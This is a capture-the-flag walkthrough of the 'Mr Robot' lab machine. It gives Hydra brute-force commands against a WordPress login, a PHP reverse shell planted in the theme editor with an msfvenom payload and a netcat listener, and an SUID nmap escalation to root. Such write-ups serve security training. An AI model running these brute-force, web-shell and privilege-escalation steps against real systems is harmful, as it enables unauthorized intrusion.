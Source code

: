 # Enumeration

We begin with an autorecon scan, which quickly identifies ports 80 and 443 as being open. We run the usual follow-up scan with nmap to verify this. 
 
![f44abe2189a06cde038722087593642a.png](/Mr%20Robot%20CTF/_resources/f44abe2189a06cde038722087593642a-1.png)

![617b4242634ecdea43934f95e3484621.png](/Mr%20Robot%20CTF/_resources/617b4242634ecdea43934f95e3484621-1.png)
 
Let's take a look at the output given by the autorecon scan. Examining the `robots.txt` file reveals some information.
 
![cd64d02e2fae9273b64a045a4d22dcec.png](/Mr%20Robot%20CTF/_resources/cd64d02e2fae9273b64a045a4d22dcec-1.png)
 
Navigating to `http://10.10.89.74/key-1-of-3.txt` gives us the first key. The `robots.txt` also points us a wordlist at `http://10.10.89.74/fsocity.dic`, which we download.

From the feroxbuster output generated by Autorecon, we see an interesting directory.
 
![1e0e3dc41916e231c246961ce4308792.png](/Mr%20Robot%20CTF/_resources/1e0e3dc41916e231c246961ce4308792-1.png)

![bfa45c96aca8dd0b74774d530687f310.png](/Mr%20Robot%20CTF/_resources/bfa45c96aca8dd0b74774d530687f310-1.png)
 
Getting the body of the POST request of the login form using BurpSuite, we can try Hydra to brute force the login.

```bash
hydra -l <username guess> -P <path to wordlist> 10.10.89.74 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:<error message for unsuccessful login>" -V
```

In this case, we want to use the wordlist `fsocity.dic` we found earlier. But first we need a username. Note that if we type in some test credentials, we get an error message which tells us the username is invalid.
 
![7fe06c5fd2a9bd063149467517c2f6ee.png](/Mr%20Robot%20CTF/_resources/7fe06c5fd2a9bd063149467517c2f6ee-1.png)
 
We can make use of this to try and find a valid username from our dictionary.

```bash
hydra -L fsocity.dic -p test 10.10.89.74 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -v 
```
 
![1b6adf98c66f0597934f8339991c41d4.png](/Mr%20Robot%20CTF/_resources/1b6adf98c66f0597934f8339991c41d4-1.png)
 
Thus we obtain the username `Elliot` (which maybe you could have gussed, given the theme of the box). If we attempt to login using this username, this verifies that `Elliot` is indeed a valid username. This also gives us another error message we can use with Hydra.
 
![e3699d755773c51a71ebe00815b2501b.png](/Mr%20Robot%20CTF/_resources/e3699d755773c51a71ebe00815b2501b-1.png)
 
Now we can attempt to run Hydra. We can either wait a very long time for Hydra to find the correct password, or we can cleanup the wordlist we found first. Using ``sort fsocity.dic | tee sorted.txt`` will list the words alphabetically. Then, ``uniq sorted.txt | tee trimmedlist.txt`` will remove any duplicate instances. Using `wc -l <file name>`, we can verify that this substantially reduced the size of our wordlist.
 
![62478eaa7c5fdf79cbfe3f12320b8a65.png](/Mr%20Robot%20CTF/_resources/62478eaa7c5fdf79cbfe3f12320b8a65-1.png)
 
Now we run Hydra again with the trimmed wordlist to find our password. 

```bash
hydra -l Elliot -P trimmedlist.txt 10.10.89.74 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered" -v -t 32
```

The `-t` switch specifies the number of tasks to run in parallel. The default is 16; I upped it since the attack was taking a long time. After almost 40 minutes, Hydra found the correct password.
 
![8f3edd3b1f9112d5b5302d2cab935b26.png](/Mr%20Robot%20CTF/_resources/8f3edd3b1f9112d5b5302d2cab935b26-1.png)
 
Alternatively, [wpscan](https://github.com/wpscanteam/wpscan) can be leveraged here since we know the blog is running on WordPress. We can use `wpscan --url http://10.10.89.74/wp-login.php -U Elliot -P <path to password list>` in an attempt to brute force the login. This was taking too long for me, so I just waited for Hydra to finish.

<br>

# Exploitation

Using the credentials we found, we log in and are presented with Elliot's WordPress dashboard. After looking around, we see that we have access to a theme editor.
 
![b012d5df19bf44bae95653fc177520dc.png](/Mr%20Robot%20CTF/_resources/b012d5df19bf44bae95653fc177520dc-1.png)

![adb31d6238f4c3cc826c5740b82fdf54.png](/Mr%20Robot%20CTF/_resources/adb31d6238f4c3cc826c5740b82fdf54-1.png)
 
We will edit the 404 Template; our goal is to upload a reverse shell using this editor in order to get command execution of the underlying machine. Set up a netcat lister with `rlwrap nc -lvnp 9999`. (`rlwrap` is used to get a slightly better shell.) At this point, we can generate a php reverse shell payload using msfvenom: `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.6.30.43 LPORT=9999 -f raw -o payload.php`. We would then set up our handler with Metasploit with `exploit/multi/handler`
and with payload `php/meterpreter/reverse_tcp`.

Alternatively, we can use [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). This is what we'll do. Make the appropriate changes to the script, update the 404 Template file, and navigate to `10.10.89.74/404.php`. We see that this gives a reverse shell, and so we have an initial foothold.
 
![9c52f3524f4ec6a5d6cf6c6ee75dea9e.png](/Mr%20Robot%20CTF/_resources/9c52f3524f4ec6a5d6cf6c6ee75dea9e-1.png)
 
<br>

# Post-exploitation

Digging around, we eventually find an interesting file. Unfortunately, we don't have access to it.
 
![1844ee5fae87970bb5e3a756ee69b538.png](/Mr%20Robot%20CTF/_resources/1844ee5fae87970bb5e3a756ee69b538-1.png)
 
We do, however, have access to a hash file. Cracking the hash reveals the password `abcdefghijklmnopqrstuvwxyz`.
 
![6cfb407e22dcf91f5146869db5f8796c.png](/Mr%20Robot%20CTF/_resources/6cfb407e22dcf91f5146869db5f8796c-1.png)
 
But, if we try to switch to the robot user with `su robot`, we encounter an error.
 
![6dbce00075572adfacbb6e05e9a13ec9.png](/Mr%20Robot%20CTF/_resources/6dbce00075572adfacbb6e05e9a13ec9-1.png)
 
So, let's upgrade our shell using `python -c 'import pty; pty.spawn("/bin/bash")'
`. Doing this allows us to switch users using the password we found above. We can then `cat` the second key.
 
![9048b29fef3190be8463b1662fadc3da.png](/Mr%20Robot%20CTF/_resources/9048b29fef3190be8463b1662fadc3da-1.png)
 
Now let's root the machine. We can escalate our privileges by looking for SUID files with `find / -perm -u=s -type f 2>/dev/null`; we find a few.
 
![3ef1260af740e2b526300c3198f7ec23.png](/Mr%20Robot%20CTF/_resources/3ef1260af740e2b526300c3198f7ec23-1.png)
 
Nmap sticks out, so we check [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/) and we see if nmap has the SUID bit set, we can use it to get a root shell. We run nmap in interactive mode with ``nmap --interactive`` and we spawn a root shell with ``!sh``.
 
![ec010bd95a1b1fc80a0a664f575cafaa.png](/Mr%20Robot%20CTF/_resources/ec010bd95a1b1fc80a0a664f575cafaa-1.png)
 
Navigating to `/root`, we find the final flag.
 
![a419f7d063b1538bfc082a6ceea43a98.png](/Mr%20Robot%20CTF/_resources/a419f7d063b1538bfc082a6ceea43a98-1.png)
